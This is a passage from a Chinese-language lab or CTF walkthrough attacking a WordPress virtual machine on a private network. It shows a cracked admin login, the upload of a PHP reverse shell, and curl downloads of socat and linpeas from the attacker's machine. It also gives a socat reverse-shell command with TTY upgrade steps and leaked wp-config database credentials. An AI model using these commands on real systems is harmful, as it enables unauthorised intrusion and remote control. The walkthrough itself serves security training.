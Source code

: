 --------------------------
 100% Percent Complete
All correct pairs:
{'bob': 'Welcome1'}

---------
这还是有百分比动态变动的，比较舒适美观！
或者用wpscan、bp也可以！


4、文件上传-getshell

http://192.168.253.182:8000/admin

bob
Welcome1

文件上传已经很简单了，快速上传吧！

上传php-reverse-shell.php，获得反弹shell后，wget没安装！


发现没安装python，回顾项目十一socat拿稳定shell：
------------------------
2）pty方法
安装了curl：
curl -O http://192.168.253.138:8082/socat
chmod +x socat

nc -vlp 9998
HOME=/dev/shm ./socat tcp:192.168.139.131:9998 exec:'/bin/bash -li',pty,stderr,sigint,sighup,sigquit,sane

使用script：
script -qc bash /dev/null

stty raw -echo
fg
------------------------

5、内部文件信息收集
curl用法参考：
https://www.cnblogs.com/hujiapeng/p/8470099.html

上传linpeas.sh：

curl -# -O http://192.168.253.138:8082/linpeas.sh

1）Linux version 3.13.0-128-generic
2）多个网卡信息：
172.18.0.1 dev eth0 lladdr 02:42:78:42:eb:c8 REACHABLE
172.18.0.4 dev eth0 lladdr 02:42:ac:12:00:04 REACHABLE
IP address       HW type     Flags       HW address            Mask     Device
172.18.0.1       0x1         0x2         02:42:78:42:eb:c8     *        eth0
172.18.0.4       0x1         0x2         02:42:ac:12:00:04     *        eth0

3）mysql信息泄露：
/var/www/html/wp-config.php
define('DB_NAME', 'wordpress');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'WordPressISBest');
define('DB_HOST', 'db:3306');
define( 'WP_SITEURL', 'http://' . $_SERVER['HTTP_HOST'] );
define( 'WP_HOME', 'http://' . $_SERVER['HTTP_HOST'] );
